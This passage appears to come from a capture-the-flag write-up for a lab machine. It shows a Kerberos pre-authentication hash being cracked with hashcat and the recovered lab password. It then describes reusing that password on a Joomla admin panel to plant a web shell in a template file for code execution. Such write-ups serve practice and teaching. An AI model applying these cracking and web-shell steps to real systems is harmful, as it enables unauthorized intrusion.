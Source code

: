 We can create a `Kerberos Pre-Auth` hash for the user `tstark`. To do this we first have to check the format that is expected by [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes).

![Hashcat kerberos example](/assets/images/writeups/office/kerberos-preauth-format.png)

We can now reconstruct the hash and crack it.

```console
$ hashcat -m 19900 tstark.hash $ROCKYOU

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5pa$18$tstark$office.htb$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc:playboy69

<SNIP>
```

We found the credentials to be `tstark:playboy69`. 

## Lateral Movement
### Access as TStark (User)
We found that `tstark` is also the administrator user for the Joomla backend so we can login with the following credentials: `Administrator:playboy69`. Next we can go to `System > Site Templates` and select the available template. We can then add a web shell on one of the available pages (e.g. `error.php`) to get remote code execution.

![Joomla RCE](/assets/images/writeups/office/joomla-rce.png)
